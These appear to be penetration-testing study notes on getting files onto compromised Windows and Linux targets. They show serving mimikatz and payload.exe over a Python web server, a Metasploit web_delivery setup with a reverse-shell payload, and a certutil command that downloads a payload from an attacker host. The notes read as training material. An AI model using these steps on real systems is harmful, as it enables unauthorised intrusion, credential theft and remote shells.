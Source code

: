 * Copy a file into the current directory and setup the web server to download the file into the target system

```bash
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .​   # dot means current user root
# Python 2.7
python -m SimpleHTTPServer 80​
# Python 3.7
python3 -m http.server 80
```

* Files can be downloaded from a browser or using a `GET` request

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-9fda9e6cda6af72c652286651e6ce3dbd0958793%2Fimage-20230428215801961.png?alt=media" alt=""><figcaption></figcaption></figure>

* MSF exploit feature

  ```bash
  #in MSF search for a exploit web_delivery. This module will host a payload and provide you with a commad to be execute
  #on the target machine
  use exploit/multi/script/web_delivery
  set target PSH    #powershell
  set target PSH\ (Binary)
  set payload windows/shell/reverse_tcp
  set -EncodedCommand false    #no base64 encoding
  set LHOST eth1
  run
  #Optput is a PS command to be executed on target
  ``` 

# Transferring Files **Windows** <a href="#transferring-files-1" id="transferring-files-1"></a>
 
* Set up a web server to host the `payload.exe` file

\# Attacker machine 
cd /root/Desktop/ # payload.exe must be here
python3 -m http.server 80

* After gaining access to the Windows target system and spawned a command shell session, download the payload file on the target system using the `certutil` tool in `cmd`.

\# Windows Target machinecd 
C:\Temp>certutil -urlcache -f http://\<ATTACKER-IP>/payload.exe payload.exe

**Linux**

* After exploiting the Linux target, transfer the `php-backdoor.php` file to the target.
* 2 terminal sessions are necessary - use `tmux` utility to get more sessions.

​[**`tmux`**](https://github.com/tmux/tmux/wiki) - _is a program, **terminal multiplexer**, which runs in a terminal and allows multiple other terminal programs to be run inside it_sudo apt install tmux -y
#tumx has the following keys 
* CTRL+B and then C # to open a additioanl terminal session. Type exit to close a session
* CTRL+B then 0 (zero) # takes to a partucular terminal 
* Scrolling CTRL+B and use pageup and pagedown
* press q to allow to type into terminal 
